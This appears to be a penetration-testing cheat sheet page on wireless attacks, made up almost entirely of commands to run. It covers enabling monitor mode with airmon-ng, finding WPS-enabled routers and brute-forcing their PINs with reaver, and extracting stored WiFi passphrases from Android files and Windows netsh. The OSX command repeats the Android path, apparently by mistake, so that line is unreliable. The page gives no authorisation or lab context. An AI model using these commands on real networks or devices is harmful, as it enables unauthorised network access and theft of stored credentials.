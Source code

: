 ```yaml
---
title: Wireless
category: Exploitation
order: 99
---
```


> **Monitor Mode** 

{% highlight bash %}
$ sudo airmon-ng start wlan0
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
{% endhighlight %}

> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Client Keys** 

Android:
{% highlight bash %}
$ cat /data/misc/wifi/wpa_supplicant.conf | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
# Requires User Access
$ cat /data/misc/wifi/wpa_supplicant.conf | grep psk=
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profiles
{% endhighlight %}

> **Useful Tools** 

* [http://www.nirsoft.net/utils/wireless_key.html](http://www.nirsoft.net/utils/wireless_key.html)



